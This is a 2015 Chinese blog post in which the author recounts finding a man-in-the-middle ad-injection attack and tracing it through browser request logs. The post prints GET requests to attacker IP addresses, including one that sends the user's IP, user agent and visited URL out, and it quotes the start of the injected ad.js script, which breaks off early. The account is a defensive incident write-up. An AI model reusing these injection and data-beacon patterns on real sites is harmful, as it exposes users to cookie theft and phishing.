 ```yaml
---
layout: post
title:  "记一次被中间人攻击的经历"
date:   2015-11-01 18:15:26
comments: true
categories: Tech MITM
---
```


俗话说得好，常在河边走，哪能不湿鞋？俗话又说了，出来混，早晚要还的。只是没想到自己还的这么快。就在之前的
几篇关于MITM的笔记兼科普文刚发布不久，我自己就遭遇了一次中间人攻击。无奈由于技不如人，当时花了两天都没
找到原因。不过吃一堑长一智，虽然丢了点个人信息，但总算明白了对方的手法。在此记录一下当时的排查过程，就当
是为自己作个提醒吧。


某天晚上我忙于搭建[我的github page][githubio]的时候，在某个网站下面突然发现有个巨大的广告弹窗，上面是一张扫地机
的图片。正好当时刚在淘宝上搜索过扫地机，对这种针对性广告也习以为常了，只是觉得这个弹窗有点大得诡异，不过当时
正弄网站弄得头脑兴奋，于是也没在意。

然后过了一两天，在浏览网页的时候，遇见那个扫地机弹窗的频率也越来越频繁，真正引起我的警惕的是，在访问一些朋友的
个人博客时，居然也有那个广告弹窗，而那个博客是肯定不会自己插入广告的。这时候我才意识到，我被黑了。由于技术水平
限制，我还一时不知道是什么问题。莫非是被中毒了？由于我平时用的是Linux操作系统，所以并没在安全防护方面花费
过多少心思，也许是被钻了漏洞，于是马上更新了最新版的浏览器，并且把操作系统的所有安全补丁也打上了。重启电脑之后
以为肯定没问题，结果一上网就发现了那个可恶的弹窗。于是想到也许是被劫持了，查看了ARP发现网关的MAC地址和我记录的地址
是一样的，然后查看DNS域名服务器：

    $cat /etc/resolv.conf

是上级NAT分配的域名服务器，似乎也没什么问题。于是先在浏览器上F12查看请求的详情，发现有几条奇怪的GET：

    GET http://122.114.61.38/adjs/ad.js?undefined
    GET http://211.149.216.27/fn_put/fishingnet2.jsp?siteID=2
    GET http://122.114.61.38/fishingnet/js2log?jsurl=http://211.149.216.27/fn_put/fishingnet2.jsp?siteID=2

    GET http://211.149.216.27/fn_put/put2.jsp?postfix=&siteID=2&isPC=false&accessUa=Mozilla/5.0%20(X11;%20Linux%20x86_64;%20rv:38.0)%20Gecko/20100101%20Firefox/38.0%20Iceweasel/38.3.0&accessIp=xx.xx.xx.xx&accessId=accessId_fnxxxxxxx&url=http%3A//iask.sina.com.cn/b/1mJivmlTavsb.html 

前面一条返回了广告弹窗的框架，并且嵌入到我正在浏览的窗口里。如果我点击了那个广告，就进入了一个钓鱼网站，至于我怎么知道的……
因为看第二条，它的名字就叫**fishingnet**。如果只是钓鱼那也算了，因为我不去咬钩就没事，可注意最后一条，居然把我的Cookie上传
到攻击者的服务器上了！真是相当恶毒啊，看样子已经不能说是恶作剧了。看看第一次GET得到的ad.js:
    
    {% highlight js %}
    /* 2014-06-20T16:23:49.295Z */!function(e,t){
    
     if("undefined" == typeof location_sign)
      {
            location_sign = 'none';
      }
    
    var myids = new Array();
    myids['jfhome'] = '0';
    myids['cdair'] = '1';
    myids['shtt2'] = '2';
    myids['cqair'] = '3';
    myids['xjair'] = '4';
    myids['dlair'] = '5';
    myids['qdair'] = '6';
    myids['bjcn'] = '7';
    var siteid = '-1';
    if(myids.hasOwnProperty(location_sign))
    {
            siteid = myids[location_sign];
    }
    
    if(location_sign=='jfhome')
    {

[githubio]: http://pannzh.github.io
[Browser-Cache-Poisoning]: http://www.eecs.berkeley.edu/~yahel/papers/Browser-Cache-Poisoning.Song.Spring10.attack-project.pdf